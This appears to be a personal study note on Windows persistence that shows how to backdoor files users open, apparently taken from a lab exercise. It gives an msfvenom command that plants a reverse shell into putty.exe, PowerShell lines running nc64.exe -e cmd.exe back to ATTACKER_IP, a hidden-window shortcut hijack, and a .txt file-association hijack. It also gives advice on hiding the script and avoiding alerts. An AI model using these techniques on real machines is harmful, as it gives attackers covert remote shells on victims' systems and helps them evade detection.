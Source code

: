 #cybersecurity #windows 

We can plant backdoors that will get executed whenever the user access them. The file must keep working as expected to not create any alerts

### Executable files
Find executables in desktop.
We can easily plant a payload of our preference in any .exe file with `msfvenom`.
The binary will execute an additional payload silently by adding an extra thread.

```shell
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

This will execute a reverse_tcp meterpreter

### Shortcut Files
We can always tamper with the shortcut file itself
![[Pasted image 20240712164404.png]]

Before hijacking the shortcut target let's create a simple Powershell script in `C:\Windows\System32` or any other sneaky location

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Be sure to point the icon back to the original executable

The final shortcut will be:

```
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```


Let's start an nc listener in the attacker machine

```
user@AttackBox$ nc -lvp 4445
```

After double clicking on the shortcut we should get a connection back to the attacker machine



### Hijacking File Associations
The default operating system file associations are kept inside the registry, where a key is stored for very single file type under
`HKLM\Software\Classes\` 
For example for txt files:
![[Pasted image 20240712172137.png]]

The ProgID is simply an identifier to a program installed on the system.
We can search for a subkey for the corresponding ProgID
![[Pasted image 20240712172321.png]]

We can replace the command with a script that executes a backdoor

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Then we create a listener and then opening a txt file we get the connection back to the attacker machine